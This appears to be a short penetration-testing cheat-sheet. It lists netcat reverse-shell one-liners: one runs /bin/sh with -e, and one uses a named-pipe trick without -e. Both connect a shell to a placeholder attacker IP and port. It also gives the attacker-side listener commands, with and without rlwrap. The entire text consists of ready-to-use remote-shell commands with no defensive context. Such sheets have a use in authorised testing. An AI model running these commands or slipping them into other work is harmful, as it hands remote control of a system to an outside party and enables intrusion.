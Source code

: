 # [Exploitation] Reverse shell (connect to listener) --netcat
nc <attacker_ip> <port> -e /bin/sh

# [Exploitation] Reverse shell (no -e, FIFO trick) --netcat
mkfifo /tmp/.p; /bin/sh -i < /tmp/.p 2>&1 | nc <attacker_ip> <port> > /tmp/.p

# [Exploitation] TCP listener (attacker side) --netcat
nc -lvnp <port>

# [Exploitation] TCP listener with rlwrap (history) --netcat
rlwrap -cAr nc -lvnp <port>
